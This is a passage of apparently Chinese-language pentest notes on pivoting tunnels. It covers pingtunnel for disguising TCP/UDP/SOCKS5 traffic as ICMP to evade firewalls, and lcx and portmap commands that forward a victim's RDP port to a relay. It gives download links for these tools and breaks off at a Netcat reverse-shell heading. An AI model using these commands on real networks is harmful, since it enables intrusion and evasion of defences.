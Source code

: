 ```
dig 192.168.8.16
```



#### 工具

[pingtunnel](https://github.com/esrrhs/pingtunnel)是把`tcp/udp/sock5`流量伪装`icmp`流量进行转发的工具

因为`tcp、udp、sock5`这几个协议受到防火墙和工具的拦截，这个工具就是把这些流量伪装成`icmp`进行数据传输

语法

- `-p` 表示连接 `icmp` 隧道另一端的机器`IP`（即**目标服务器**）
- `-lp`  表示需要**监听**的本地`tcp`端口
- `-da`  指定需要**转发**的机器的`IP`（即目标内网某一机器的内网 IP）
- `-dp` 指定需要转发的机器的端口（即目标内网某一机器的内网端口）
- `-x` 设置连接的密码



### 传输层转发隧道 

**lcx**

在window使用

下载地址：https://pan.baidu.com/s/1EoGZYVejTrBHBAvhndHLuQ , 提取码：fn9o

**连接命令：**

```
lcx -slave 192.168.3.31 6666 127.0.0.1 3389
```



**portmap**

即lcx工具的linux版

下载地址：http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip

连接命令：

```
./portmap -m 2 -p1 6666 -h2 公网IP -p2 7777
```

这里的6666端口和7777端口在公网IP上必须是开启状态



#### Netcat

windows和linux都能利用，用时需要确保是最新版

window下载地址：https://eternallybored.org/misc/netcat/

**使用：**

**双向连接反弹 shell**

1. **正向：**攻击连接受害
